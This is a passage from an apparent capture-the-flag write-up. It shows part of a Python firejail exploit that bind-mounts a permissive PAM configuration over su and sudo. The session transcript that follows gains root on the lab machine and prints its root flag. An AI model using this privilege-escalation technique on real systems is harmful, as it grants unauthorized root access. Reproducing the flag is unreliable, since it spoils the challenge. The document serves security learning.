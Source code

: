 ```python
#
# This means we can invoke setuid-root binaries as usual but they will operate
# in a mount namespace under our control. To exploit this we need to adjust
# file system content in a way that a setuid-root binary grants us full
# root privileges. 'su' and 'sudo' are the most typical candidates for it.
#
# The tools are hardened a bit these days and reject certain files if not owned
# by root e.g. /etc/sudoers. There are various directions that could be taken,
# this one works pretty well though: Simply replacing the PAM configuration
# with one that will always grant access.
with tempfile.NamedTemporaryFile('w') as tf:
    tf.write("auth sufficient pam_permit.so\n")
    tf.write("account sufficient pam_unix.so\n")
    tf.write("session sufficient pam_unix.so\n")

    # Be agnostic about the PAM config file location in /etc or /usr/etc
    for pamd in ("/etc/pam.d", "/usr/etc/pam.d"):
        if not os.path.isdir(pamd):
            continue
        for service in ("su", "sudo"):
            service = Path(pamd) / service
            if not service.exists():
                continue
            # Bind mount over new "helpful" PAM config over the original
            bindMount(tf.name, service)

print(f"You can now run 'firejail --join={os.getpid()}' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.")

while True:
    line = sys.stdin.readline()
    if not line:
        break
```

Copied SSH keys over to atlas home directory to create two sessions. Copied over the python exploit and gave it executable permissions.

```bash
atlas@sandworm:~$ chmod +x exploit.py 
atlas@sandworm:~$ python3 exploit.py 
You can now run 'firejail --join=4689' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```

Ran the command as instructed in the second session and then used su to change to root. Atlas user was not part of sudo group so it threw an error. Simply using su resolved the issue.

```bash
atlas@sandworm:~$ firejail --join=4689
changing root to /proc/4689/root
Warning: cleaning all supplementary groups
Child process initialized in 6.78 ms
atlas@sandworm:~$ su
root@sandworm:/home/atlas# id
uid=0(root) gid=0(root) groups=0(root)
root@sandworm:/home/atlas# cat /root/root.txt
724c47373a08b8471ab6af8be2c95adb
root@sandworm:/home/atlas# 
```

Root flag captured.